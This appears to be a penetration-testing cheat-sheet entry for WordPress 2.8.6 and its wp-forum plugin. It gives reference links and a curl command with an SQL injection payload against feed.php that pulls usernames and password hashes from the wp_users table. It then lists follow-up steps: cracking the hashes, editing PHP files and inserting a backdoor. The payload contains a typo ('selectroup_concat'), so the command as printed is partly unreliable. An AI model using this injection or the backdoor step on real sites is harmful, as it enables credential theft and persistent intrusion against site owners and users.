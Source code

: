 # Wordpress 2.8.6
- wp-forum
  - Ref
    - https://xz.aliyun.com/?page=2 (China)
    - http://cxsecurity.com/issue/WLB-2013020035
  - cmds
    ~~~sh
    curl -L "http://${HOST}/wp/wp-content/plugins/wp-forum/feed.php?topic=1+union+selectroup_concat%28user_login,0x3a,user_pass%29+from+wp_users%23"
    ~~~
  - Hash crack
  - We can edit .php files
    - Insert backdoor


